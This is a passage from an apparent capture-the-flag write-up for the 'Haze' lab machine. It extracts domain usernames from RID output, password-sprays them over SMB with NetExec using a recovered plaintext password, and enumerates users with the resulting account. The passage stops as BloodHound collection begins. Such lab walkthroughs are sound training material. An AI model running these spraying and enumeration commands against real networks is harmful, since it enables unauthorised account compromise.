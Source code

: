 Anyway we got some users tho we can do password spray now!!!

```bash
➜  Haze cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2            
Administrator
Guest
krbtgt
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
➜  Haze cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt
```

and lets do password spray

```bash
nxc smb 10.10.11.61 -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
```

![alt text](../assets/images/haze11.png)

nice we got another user and now if i run `--users` option it will be more stable.

```bash
nxc smb 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --users 
```

![alt text](../assets/images/haze12.png)

Probably our user `paul.taylor` accounts is restricted.

### Bloodhound Data

Lets try to dump BH data if we can.
